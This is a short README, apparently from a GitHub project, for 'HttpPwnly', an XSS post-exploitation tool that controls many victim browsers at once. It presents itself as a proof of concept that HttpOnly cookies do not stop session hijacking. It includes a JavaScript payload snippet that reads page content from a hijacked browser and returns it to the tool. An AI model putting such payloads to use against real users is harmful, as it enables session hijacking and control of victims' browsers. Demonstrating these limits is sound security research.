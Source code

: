 # HttpPwnly

"Repeater" style XSS post-exploitation tool for mass browser control. Primarily a PoC to show why HttpOnly flag isn't a complete protection against session hijacking via XSS.

## Dependencies:
pip install flask flask_sqlalchemy flask_cors

## Demo:
https://www.youtube.com/watch?v=HQYzJKpBHjk

## Asynchronous payloads:
To overide normal task output data within your payload (for example in order to retrieve output from XMLHttpRequest), call the "sendOutput" function and pass it your intended output. For example:

```
var xmlhttp = new XMLHttpRequest();
  xmlhttp.onreadystatechange = function() {
    if (xmlhttp.readyState == 4 && xmlhttp.status == 200) {
      sendOutput(task.id,xmlhttp.responseText);
    }
  };
  xmlhttp.open("GET", "/", true);
  xmlhttp.send();
```
